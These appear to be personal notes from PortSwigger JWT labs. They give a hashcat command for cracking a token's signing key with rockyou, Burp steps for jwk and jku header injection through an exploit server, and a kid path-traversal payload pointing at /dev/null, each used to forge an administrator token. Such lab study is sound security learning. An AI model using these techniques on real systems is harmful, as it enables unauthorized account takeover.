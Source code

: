 ___

https://jwt.io/

https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list
# JWT authentication bypass via unverified signature

![[Pasted image 20240910070802.png]]

# JWT authentication bypass via flawed signature verification

![[Pasted image 20240910071753.png]]

# JWT authentication bypass via weak signing key


```bash
hashcat -m 16500 -a 0 eyJraWQiOiI4ZjMyMTg4Mi1iM2ViLTRlYjItYTg0ZS05YTYyMGMzOTc5MjAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTcyNTk4NDIwNSwic3ViIjoid2llbmVyIn0.r2jYw6UNai3aiU23kDltRmrTu_Epoysi-xv4Su7HnBM /usr/share/wordlists/rockyou.txt
```
![[Pasted image 20240910111754.png]]

# JWT authentication bypass via jwk header injection

- Go to JWT Editor Keys - New RSA Key - Generate  
- Get Request with JWT token - Repeater - JSON Web Token tab - Attack (at the bottom) 
- Embedded JWK - Select your previously generated key - OK

# JWT authentication bypass via jku header injection

- Go to your exploit server and paste the next payload in Body:

```
{
    "keys": [

    ]
}
```
- JWT Editor Keys - New RSA Key - Generate - right-click on key - Copy Public Key as JWK  
- In "keys" section paste your previously copied JWK:

```
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "893d8f0b-061f-42c2-a4aa-5056e12b8ae7",
            "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw"
        }
    ]
}
```

- Back to our JWT, replace the current value of the kid parameter with the kid of the JWK that you uploaded to the exploit server.  
 - Add a new jku parameter to the header of the JWT. Set its value to the URL of your JWK Set on the exploit server.  
- Change "sub" to administrator  
 - Click "Sign" at the bottom of JSON Web Token tab in repeater and select your previously generated key

# JWT authentication bypass via kid header path traversal

- JWT Editor Keys - New Symmetric Key - Generate - replace the value of "k" parameter to AA== - OK  
- Back to our JWT, replace "kid" parameter with ../../../../../dev/null  
- Change "sub" to administrator  
- Click "Sign" at the bottom of JSON Web Token tab in repeater and select your previously generated key